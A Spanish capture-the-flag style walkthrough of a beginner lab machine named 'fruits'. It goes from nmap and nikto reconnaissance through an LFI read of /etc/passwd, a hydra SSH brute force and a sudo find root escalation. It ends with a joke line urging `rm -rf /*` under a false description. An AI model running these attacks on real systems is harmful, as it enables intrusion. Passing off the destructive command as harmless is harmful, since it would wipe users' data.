


# fruits

## Dificultad: Principiante

Luego de comprobar la conexion con la maquina virtual, podemos empezar


# Reconocimiento

Como es costumbre, comenzaremos usando nmap para escanear la red en busca de los servicios que tiene la maquina dentro.

```bash
nmap -sV -p- 192.168.237.129 -Pn
```

- -sV: Detecta versiones de servicios
- -Pn: No realiza ping a la máquina
- -p-: Escanea todos los puertos


Revisando los resultados del escaneo, podemos ver que hay un servicio de SSH corriendo en el puerto **22** y un servicio **HTTP** en el puerto 80. Por lo que podemos intuir que hay algun usuario que buscar para conectar por el ssh.

Revisando la pagina al entrar por el navegador, podemos ver que hay un sitio web con un tema de frutas con un buscador.


Al ingresar algo dentro del buscador, se hace una peticion POST, pero retorna un error 404, sin encontrar algo dentro.


Podemos notar que el sitio web hace una peticion con el parametro php `busqueda` del archivo del mismo nombre por lo que es posible que el contenido este almacenado en algun otro archivo en los directorios de la aplicacion.

Para buscar mas dentro de la aplicacion utilizaremos dirbuster para hacer algo de fuzzing y observar algun otro contenido interesante.

```bash
dirbuster
```

Utilizaremos el dirbuster con uno de sus diccionarios por defecto para buscar archivos y directorios ocultos en la aplicacion, ademas añadiremos la funcion para buscar archivos con formato `.php`



Podemos ver que dirbuster ha encontrado un archivo llamado `fruits.php` en el directorio raiz.


Sin embargo, parece que el archivo `fruits.php` no contiene nada dentro, asi que me lleva a que podriamos usar LFI para intentar acceder a otros archivos en el servidor.

Para poder averiguar que clase de LFI podemos hacer y buscar que podemos hacer, podemos la herramienta `nikto` que hace pruebas automaticas para buscar vulnerabilidades en las url.

```bash
nikto -h http://192.168.237.129/fruits.php
```


Y en la linea final podemos ver que en colocando `/fruits.php/viewpage.php?file=/etc/passwd` al final de la url lograra hacer una lectura al archivo `/etc/passwd` para obtener información sensible del sistema, especificamente los usuarios accesibles.



Y al acceder a la url `http://192.168.237.129/fruits.php/viewpage.php?file=/etc/passwd` podemos ver que se logra leer el contenido del archivo correctamente


Y con esto tenemos el usuario que estabamos buscando: `bananaman`

# Entrega

Con el usuario `bananaman` en mano, podemos intentar acceder al servicio SSH que se estaba ejecutando en el puerto 22. Utilizaremos `hydra` con el diccionario `rockyou.txt` 

```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.237.129
```


Al ejecutar el comando, podemos ver que `hydra` ha encontrado la contraseña correcta para el usuario `bananaman`: `celtic`

Con esto podremos conectarnos por ssh al servidor

```bash
ssh bananaman@192.168.237.129
```


Y estamos dentro!

# Escalación de privilegios

Una vez dentro utilizamos el comando `sudo -l` para buscar los permisos de sudo que tiene el usuario `bananaman`.

```bash
bananaman@Fruits:~$ sudo -l
Matching Defaults entries for bananaman on Fruits:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```

podemos observar que puede usar el comando `find` como `root` sin necesidad de contraseña, lo que podría ser útil para elevar privilegios.

Buscando en `GTFOBins` podemos encontrar un payload que nos permitira elevar privilegios en donde podemos ejecutar un shell como root:

```bash
sudo find . -exec /bin/bash \; -quit
```


Y con esto ya tenemos acceso como root !

Ahora podemos ejecutar `rm -rf /*` para eliminar el idioma frances para que vaya mas rapido :).

